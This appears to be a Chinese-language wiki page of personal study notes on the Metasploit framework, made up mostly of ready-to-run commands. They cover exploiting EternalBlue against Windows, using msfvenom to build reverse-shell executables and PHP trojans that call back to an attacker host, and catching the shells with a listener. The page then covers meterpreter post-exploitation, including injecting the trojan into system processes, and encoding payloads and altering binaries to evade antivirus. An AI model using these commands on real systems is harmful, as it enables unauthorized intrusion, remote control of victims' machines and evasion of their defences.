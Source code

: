 ```yaml
---
title: 19.msf
description: msf渗透框架
published: 1
date: 2023-04-19T17:46:13.160Z
tags: web safe, msf
editor: markdown
dateCreated: 2023-04-19T17:46:07.123Z
---
```


<center>msf</center>



[toc]



## Msf

> metasploit 渗透测试框架 [msf](https://github.com/rapid7/metasploit-framework)
>
> pro功能强大



### 1.使用

```shell
# docker
docker pull metasploitframework/metasploit-framework
docker run -it -p 443:433 d4
# msfconsole
msfconsole

# 查看能使用的漏洞
show exploits

# 搜索
search xxx

# 使用 有规律的
use exploit/windows/smb/ms17_010_eternalblue

# 攻击载荷
show payloads

# 攻击信息
show options
set payload <name>
set lhost <host>
set rhost <host>

# 攻击
exploit/run

# 信息
show info
show tagets
# 检查 不能直接打死别人
check
```

> [msf17010](https://www.codenong.com/cs106870256/)

### 2.木马工具

> msfvenom 木马生成工具

```shell
# 生成木马 -p pyloads -LHOST 主机 -LPORT -f 文件类型
msfvenom -p windows/x64/vncinject/reverse_winhttp LHOST=192.168.1.13 LPORT=888 -f exe > ~/Desktop/shell.exe 


# msfconsole 使用木马监听模块
use exploit/multi/handler
set LHOST 192.168.1.13 
set LPORT 888

# 生成php木马  raw 源码    elf linux格式
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.13 LPORT=888 -f raw > shell.php

# 查看payload
msfvenom -l payload

# 查看代码混淆 -e
msfvenom -l encoders
# 生成文件格式 -f
msfvenom --list format
```



### 3. 会话

> meterpreter 管理木马 
>
> 逆向工具[csdn](https://blog.csdn.net/qq_20031585/article/details/125865535) 
>
> [ghidra](https://github.com/NationalSecurityAgency/ghidra)

```shell
help #帮助文档

# 使用 msf17_010永恒之蓝攻击win7

# 上传下载  那大文件这么办呢
upload/download

# 获取shell  乱码：chcp 65001
shell

# 搜索/编辑 文件
search/edit

# 端口转发
portfwd 

# 进程迁移 我们的木马进程注入到系统进程中
migrate

```



### 4. 木马混淆

> encoders 木马混淆

```shell
# 混淆代码 -e
msfvenom -l encoders 

msfvenom -p windows/x64/vncinject/reverse_winhttp -e x64/zutto_dekiru  LHOST=192.168.1.13 LPORT=888 -f exe  > ~/Desktop/shell.exe
```

>  如何免杀：防止杀软杀了我们
>
>  我们木马混淆就是免杀

```shell
# 一般二进制选手看杀软为何杀我们(了解工作流)
修改文件md5
    1. 添加无效数据(了解pe结构)
    2. 修改资源表
    3. 修改字符串
    4. 修改体积
修改指令(代码)
修改执行流程(加壳)
修改源码
```



### 5.流程

1. 找目标存在的漏洞
2. 使用该漏洞
3. 设置payload
4. 攻击













